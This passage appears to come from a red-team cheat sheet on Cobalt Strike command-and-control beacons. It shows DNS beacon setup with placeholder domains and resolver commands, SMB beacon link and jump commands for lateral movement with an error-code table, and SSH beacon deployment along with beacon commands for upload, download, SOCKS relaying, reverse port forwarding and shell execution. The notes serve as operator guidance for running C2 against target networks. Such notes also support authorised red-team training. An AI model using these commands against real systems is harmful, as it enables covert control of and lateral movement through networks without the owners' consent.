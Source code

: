 * nslookup jibberish.beacon polling.campaigns.domain.com
* nslookup jibberish.beacon campaigns.domain.com

Example of DNS on Digital Ocean:

```powershell
NS  example.com                     directs to 10.10.10.10.            86400
NS  polling.campaigns.example.com   directs to campaigns.example.com.	3600
A	campaigns.example.com           directs to 10.10.10.10	            3600 
```

```powershell
systemctl disable systemd-resolved
systemctl stop systemd-resolved
rm /etc/resolv.conf
echo "nameserver 8.8.8.8" >  /etc/resolv.conf
echo "nameserver 8.8.4.4" >>  /etc/resolv.conf
```

Configuration:
1. **host**: campaigns.domain.com
2. **beacon**: polling.campaigns.domain.com
3. Interact with a beacon, and `sleep 0`


### SMB Beacon   

```powershell
link [host] [pipename]
connect [host] [port]
unlink [host] [PID]
jump [exec] [host] [pipe]
```

SMB Beacon uses Named Pipes. You might encounter these error code while running it.

| Error Code | Meaning              | Description                                        |
|------------|----------------------|----------------------------------------------------|
| 2          | File Not Found       | There is no beacon for you to link to              |
| 5          | Access is denied     | Invalid credentials or you don't have permission   |
| 53         | Bad Netpath          | You have no trust relationship with the target system. It may or may not be a beacon there. |


### SSH Beacon

```powershell
# deploy a beacon
beacon> help ssh
Use: ssh [target:port] [user] [pass]
Spawn an SSH client and attempt to login to the specified target

beacon> help ssh-key
Use: ssh [target:port] [user] [/path/to/key.pem]
Spawn an SSH client and attempt to login to the specified target

# beacon's commands
upload                    Upload a file
download                  Download a file
socks                     Start SOCKS4a server to relay traffic
sudo                      Run a command via sudo
rportfwd                  Setup a reverse port forward
shell                     Execute a command via the shell
```
